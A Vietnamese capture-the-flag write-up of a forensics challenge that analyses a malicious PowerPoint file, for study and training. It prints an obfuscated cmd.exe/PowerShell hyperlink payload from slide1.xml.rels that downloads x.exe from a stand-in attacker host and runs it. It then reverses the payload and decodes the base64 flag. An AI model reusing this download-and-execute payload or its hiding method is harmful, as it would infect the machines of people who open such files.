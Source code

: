 # AlienPhish

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

{% file src="../../.gitbook/assets/forensics_alienphish.zip" %}

* Tiếp tục với Phân tích tài liệu độc, lần này là một file PowerPoint
*

    <figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~/Desktop/HTB/AlienPhise]
└─$ unzip Alien\ Weaknesses.pptx 
Archive:  Alien Weaknesses.pptx
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: ppt/slides/_rels/slide1.xml.rels  
  inflating: ppt/_rels/presentation.xml.rels  
  inflating: ppt/presentation.xml    
  inflating: ppt/slides/slide1.xml   
  inflating: ppt/slideLayouts/_rels/slideLayout5.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout8.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout10.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout11.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout9.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout6.xml.rels  
  inflating: ppt/slideMasters/_rels/slideMaster1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout2.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout3.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout7.xml.rels  
  inflating: ppt/slideLayouts/slideLayout11.xml  
  inflating: ppt/slideLayouts/slideLayout10.xml  
  inflating: ppt/slideLayouts/slideLayout3.xml  
  inflating: ppt/slideLayouts/slideLayout2.xml  
  inflating: ppt/slideLayouts/slideLayout1.xml  
  inflating: ppt/slideMasters/slideMaster1.xml  
  inflating: ppt/slideLayouts/slideLayout4.xml  
  inflating: ppt/slideLayouts/slideLayout5.xml  
  inflating: ppt/slideLayouts/slideLayout6.xml  
  inflating: ppt/slideLayouts/slideLayout7.xml  
  inflating: ppt/slideLayouts/slideLayout8.xml  
  inflating: ppt/slideLayouts/slideLayout9.xml  
  inflating: ppt/slideLayouts/_rels/slideLayout4.xml.rels  
  inflating: ppt/theme/theme1.xml    
 extracting: ppt/media/image1.png    
 extracting: ppt/media/image2.png    
 extracting: docProps/thumbnail.jpeg  
  inflating: ppt/presProps.xml       
  inflating: ppt/tableStyles.xml     
  inflating: ppt/viewProps.xml       
  inflating: docProps/app.xml        
  inflating: docProps/core.xml 
```

* Sau khi mình check tất cả các file thì nhận thấy file `slide1_xml.rels` chứa một chuỗi đáng ngờ

```
┌──(kali㉿kali)-[~/…/AlienPhise/ppt/slides/_rels]
└─$ strings slide1.xml.rels 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

* Nhìn vào các Target ta sẽ thấy ngay đoạn bất thường

```
Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

* Nếu để ý thì sẽ thấy một số string bị đảo ngược

```
neila -> alien
htraeyortsed -> destroyearth
ptth -> http
```

* Reverse đoạn Target này lại

```
22%52%=!XCk*:XCk52%02%llac02%002%qel02%X52%02%fi;pma&;pma&!1,X52%~:My!!XCk!=XCk02%tes02%od)0;1-;221(02%ni02%X52%02%L/02%rof;pma&;pma&powershell02%-c02%22%$o02%=02%$env:temp02%+02%'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe';02%iwr02%http:/destroyearth.alien/x.exe02%-outfile02%$o22%=My02%tes22%C/NO:V/02%exe.dmc"=tegraT
```

* Ta có một đoạn  base64 `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM`

```
>>> import base64
>>> flag = "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM="
>>> base64.b64decode(flag)
b'CHTB{pH1sHiNg_w0_m4cr0s'
```

Ta có flag cần tìm

\
